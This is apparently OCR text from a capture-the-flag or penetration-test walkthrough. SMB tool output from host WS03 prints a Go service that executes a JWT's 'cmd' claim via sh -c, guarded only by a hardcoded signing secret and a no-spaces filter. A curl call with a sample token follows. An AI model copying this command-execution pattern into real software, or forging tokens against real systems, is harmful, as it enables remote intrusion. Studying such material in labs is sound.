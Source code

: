 445    WS03             package main
SMB         172.16.2.102    445    WS03             import (
SMB         172.16.2.102    445    WS03             "fmt"
SMB         172.16.2.102    445    WS03             "os/exec"
SMB         172.16.2.102    445    WS03             "strings"
SMB         172.16.2.102    445    WS03             "net/http"
SMB         172.16.2.102    445    WS03             
SMB         172.16.2.102    445    WS03             "github.com/auth0/go-jwt-middleware"
SMB         172.16.2.102    445    WS03             "github.com/dgrijalva/jwt-go"
SMB         172.16.2.102    445    WS03             )
SMB         172.16.2.102    445    WS03             
SMB         172.16.2.102    445    WS03             var secret = []byte("PSmu3dR2wMZQvNge")
SMB         172.16.2.102    445    WS03             
SMB         172.16.2.102    445    WS03             var RunCmd = http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
SMB         172.16.2.102    445    WS03             // Extract token from header
SMB         172.16.2.102    445    WS03             var tokenstring string
SMB         172.16.2.102    445    WS03             tokens, ok := r.Header["Authorization"]
SMB         172.16.2.102    445    WS03             if ok && len(tokens) <= 2 {
SMB         172.16.2.102    445    WS03             tokenstring = tokens[0]
SMB         172.16.2.102    445    WS03             tokenstring = strings.TrimPrefix(tokenstring, "Bearer ")
SMB         172.16.2.102    445    WS03             }
SMB         172.16.2.102    445    WS03             
SMB         172.16.2.102    445    WS03             // Extract cmd
SMB         172.16.2.102    445    WS03             token, _ := jwt.Parse(tokenstring, func(token *jwt.Token) (interface{}, error) {
SMB         172.16.2.102    445    WS03             return secret, nil
SMB         172.16.2.102    445    WS03             })
SMB         172.16.2.102    445    WS03             cmd := token.Claims.(jwt.MapClaims)["cmd"].(string)
SMB         172.16.2.102    445    WS03             
SMB         172.16.2.102    445    WS03             // Execute command
SMB         172.16.2.102    445    WS03             // BUG: This only will work on linux, this was a hack to easily allow arguments to be sent.
SMB         172.16.2.102    445    WS03             //      Unfortunately, it broke the code on Windows.  Either need to look into parsing
SMB         172.16.2.102    445    WS03             //      arguments, or simply create an if/then to check for OS.
SMB         172.16.2.102    445    WS03             // No command should contain a space.
SMB         172.16.2.102    445    WS03             if strings.Contains(cmd, " ") {
SMB         172.16.2.102    445    WS03             fmt.Fprintf(w, "Hacker Detected!")
SMB         172.16.2.102    445    WS03             } else {
SMB         172.16.2.102    445    WS03             // Execute command
SMB         172.16.2.102    445    WS03             output, _ := exec.Command("sh","-c", cmd).Output()
SMB         172.16.2.102    445    WS03             fmt.Fprintf(w, "%s", output)
SMB         172.16.2.102    445    WS03             }
SMB         172.16.2.102    445    WS03             })
SMB         172.16.2.102    445    WS03             
SMB         172.16.2.102    445    WS03             func main() {
SMB         172.16.2.102    445    WS03             jwtMiddleware := jwtmiddleware.New(jwtmiddleware.Options{
SMB         172.16.2.102    445    WS03             ValidationKeyGetter: func(token *jwt.Token) (interface{}, error) {
SMB         172.16.2.102    445    WS03             return secret, nil
SMB         172.16.2.102    445    WS03             },
SMB         172.16.2.102    445    WS03             SigningMethod: jwt.SigningMethodHS256,
SMB         172.16.2.102    445    WS03             })
SMB         172.16.2.102    445    WS03             
SMB         172.16.2.102    445    WS03             app := jwtMiddleware.Handler(RunCmd)
SMB         172.16.2.102    445    WS03             http.ListenAndServe("0.0.0.0:3000", app)
SMB         172.16.2.102    445    WS03             }

$ curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyLCJpc3MiOiJnby1qd3QtbWlkZGxld2FyZS1leGFtcGxlIiwiYXVkIjoiZ28tand0LW1pZGRsZXdhcmUtZXhhbXBsZSJ9.xcnkyPYu_b3qm2yeYuEgr5R5M5t4pN9s04U1ya53-KM" localhost:3000